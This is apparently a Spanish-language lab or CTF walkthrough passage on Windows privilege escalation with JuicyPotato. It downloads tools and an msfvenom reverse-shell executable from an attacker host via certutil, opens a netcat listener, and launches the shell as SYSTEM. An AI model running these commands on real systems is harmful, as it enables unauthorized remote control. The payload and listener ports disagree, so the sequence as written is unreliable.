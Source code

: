 ## ESCALADA JUICYPOTATO

Esta es otra manera de escalar privilegios, en esta ocasión vamos a hacer uso de [JuicyPotato](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe), debido a que tenemos habilitado el permiso `SeImpersonatePrivilege`.

En máquina víctima consultamos permisos y grupos habilitados.

```bash
whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
```

Descargamos `JuicyPotato`

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

Habilitamos un servidor `http` por python

```bash
sudo python3 -m http.server 80
```

Descargamos en la máquina el recurso a explotar

```bash
certutil.exe -f -urlcache -split http://10.10.14.2/JuicyPotato.exe JuicyPotato.exe
```

### MSFVENOM REVERSE SHELL

Generamos reverse shell con `msfvenom` 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4565 -f exe -o rev.exe
```

Descargamos la reverse shell en la máquina víctima

```bash
certutil.exe -f -urlcache -split http://10.10.14.2/rev.exe
```

Generamos un listener
  
```bash
rlwrap nc -lvnp 4564
```

Ejecutamos `JuicyPotato` activando la reverse shell desde la máquina víctima

```bash
JuicyPotato.exe -t * -l 1231 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\priv\rev.exe" -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```
